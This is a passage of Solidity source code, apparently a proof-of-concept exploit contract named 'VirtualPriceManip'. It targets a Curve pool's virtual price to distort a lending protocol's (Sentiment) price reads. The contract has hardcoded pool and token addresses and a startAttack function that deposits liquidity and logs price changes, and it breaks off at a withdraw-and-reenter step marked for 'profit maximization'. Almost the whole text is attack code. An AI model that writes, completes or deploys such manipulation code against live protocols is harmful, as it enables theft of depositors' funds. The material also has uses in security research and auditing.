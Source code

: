 ```solidity
  function getBalance(address account) external view returns (uint);
  function getBorrows(address account) external view returns (uint);
}

interface ISentimentCore {
  function riskEngine() external view returns (address);
}

interface ICurvePool {
  function add_liquidity(uint256[2] memory amounts, uint256 min_mint_amount) external payable returns (uint256);
  function remove_liquidity(uint256 amount, uint256[2] memory min_amounts) external returns (uint256);
  function get_virtual_price() external view returns (uint256);
}

interface ILP {
  function balanceOf(address) external view returns (uint256);
}

contract VirtualPriceManip {
  ICurvePool POOL = ICurvePool(0x6eB2dc694eB516B16Dc9FBc678C60052BbdD7d80);
  ILP LP = ILP(0xDbcD16e622c95AcB2650b38eC799f76BFC557a0b);
  ILP WSTETH = ILP(0x5979D7b546E38E414F7E9822514be443A4800529);
  // Get WETH

  // Check Virtual Price

  // Deposit into Curve

  // Check Virtual Price

  // Withdraw, and ReEnter

  // Check Virtual Price

  // End, Check Virtual Price

  event Debug(string name, uint256 value);

  function fakeSentimentPrice() internal returns (uint256){
    uint256 FAKE_WETH_PRICE = 1e18;
    return FAKE_WETH_PRICE * POOL.get_virtual_price() / 1e18;
  }

  function startAttack() external payable {
    uint256 amt = msg.value;

    // 1. Check Virtual Price
    emit Debug("Virtual Price 1", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 1", fakeSentimentPrice());

    // 2. Curve deposit
    uint256[2] memory dep = [amt, 0];
    POOL.add_liquidity{value: amt}(dep, 1);

    // 3. Check Virtual Price
    emit Debug("Virtual Price 3", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 3", fakeSentimentPrice());

    // 4. Curve Withdraw
    // TODO: This is where profit maximization math will be necessary
    uint256[2] memory dep2 = [uint256(0), uint256(0)];
```